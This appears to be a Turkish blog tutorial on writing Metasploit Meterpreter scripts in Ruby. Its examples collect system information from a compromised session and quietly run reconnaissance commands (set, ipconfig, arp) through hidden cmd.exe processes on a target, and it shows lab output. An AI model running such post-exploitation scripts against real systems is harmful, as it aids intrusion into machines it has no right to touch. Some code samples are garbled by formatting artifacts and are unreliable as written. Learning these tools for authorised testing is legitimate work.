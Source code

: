 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Düzenleme'
date: '2017-06-14T13:49:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve\_helloworld.rb\_olarak\_/usr/share/metasploit-framework/scripts/meterpreter\_klasörüne kayıt edelim." 
 
url:  /tr/msf-meterpreter-script-duzenleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.


```bash
root@kali:~# echo “print_status(“Hello World”)” > /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```



Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.


```bash
meterpreter > run helloworld
> Hello World
meterpreter >
```



Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.


```bash
print_error(“this is an error!”)
print_line(“this is a line”)
```



Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.


```bash
meterpreter > run helloworld
> Hello World
**[**-] this is an error!
this is a line
meterpreter >
```



## helloworld.rb



Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.


```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```



Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.


```bash
 def geninfo(session)
    begin
    …..
    rescue ::Exception => e
    …..
    end
 end
```



Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.


```bash
 def getinfo(session)
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print_status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
    rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end
```



Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.



## helloworld2.rb



İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.


```bash
 def getinfo(session)
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print _status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
 rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end

 getinfo(client)
```



Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.


```bash
 meterpreter > run helloworld2
 > Getting system information ...
 >     The target machine OS is Windows XP (Build 2600, Service Pack 3).
 >     The computer name is Computer
 >     Script running as WINXPVM01labuser
```



Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.



## helloworld3.rb



Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.


```bash
def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r**=**''
    session.response_timeout**=**120
    cmdlst.each **do** |cmd|
       begin
          print_status "running command #{cmd}"
          r **=** session.sys.process.execute("cmd.exe /c #{cmd}", nil, **{**'Hidden' => true, 'Channelized' => true**})**
          **while**(d **=** r.channel.read)             print_status("t#{d}")
          end
          r.channel.close
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end commands **=** **[** "set",
    "ipconfig  /all",
    "arp -a"**]** list_exec(client,commands)
```



Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.



`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.


```bash
 commands **=** **[** “set”,
    “ipconfig  /all”,
    “arp –a”]
```



Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.



Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.


```bash
 meterpreter > run helloworld3
 > Running Command List ...
 >     running command set
 >     ALLUSERSPROFILE**=**C:\Documents and Settings\All Users
 APPDATA**=**C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles**=**C:\Program Files\Common Files
 COMPUTERNAME**=**TARGET
 ComSpec**=**C:\WINNT\system32\cmd.exe
 HOMEDRIVE**=**C:
 HOMEPATH**=**
 LOGONSERVER**=**TARGET
 NUMBER_OF_PROCESSORS**=**1
 OS**=**Windows_NT
 Os2LibPath**=**C:\WINNT\system32\os2dll;
 Path**=**C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT**=**.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE**=**x86
 PROCESSOR_IDENTIFIER**=**x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL**=**6
 PROCESSOR_REVISION**=**0706
 ProgramFiles**=**C:\Program Files
 PROMPT**=**$P$G
 SystemDrive**=**C:
 SystemRoot**=**C:\WINNT
 TEMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN**=**TARGET
 USERNAME**=**P0WN3D
 USERPROFILE**=**C:\Documents and Settings\P0WN3D
 windir**=**C:\WINNT >     running command ipconfig  /all
 >     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM >     running command arp -a
 >     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter >
```



Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.
